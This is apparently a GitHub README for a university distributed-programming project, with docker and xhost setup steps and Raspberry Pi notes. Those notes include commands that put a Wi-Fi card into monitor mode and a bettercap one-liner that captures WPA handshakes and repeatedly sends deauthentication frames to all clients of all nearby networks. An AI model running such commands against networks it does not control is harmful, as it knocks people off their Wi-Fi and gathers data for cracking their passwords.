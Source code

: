 # Distribuited Programming University Project 

# Dependencies

Since `client` within docker runs a GUI using `raylib`, we need to forward the desktop environment to docker.
So, a utility called `xhost` is needed (`xorg-xhost` package on arch).

Then run 

```bash
export DISPLAY=:0.0
xhost +local:docker
docker compose up --build -d
```

# Raspberry-Pi Useful commands

> Tested on Raspberry-Pi 5 Model B Rev. 2

> [!TIP]
> Change `wlan1` interface with your interface accordingly. Make sure your Wi-Fi card supports monitor mode and packet injection first.

## Set-Up monitor mode

```bash
sudo ip link set wlan1 down
sudo iw dev wlan1 set type monitor
sudo ip link set wlan1 up
```

## Useful Bettercap commands

```bash
sudo bettercap -iface wlan1
wifi.recon BBSID
wifi.recon on
```

## All-in one bettercap command

```bash
sudo bettercap -iface wlan1 -eval 'set wifi.handshakes.aggregate false; set wifi.handshakes.file ~/handshakes; wifi.recon on; wifi.recon.channel 3; set wifi.show.sort clients desc; set ticker.commands "wifi.deauth *; clear; wifi.show"; set ticker.period 60; ticker on';
```
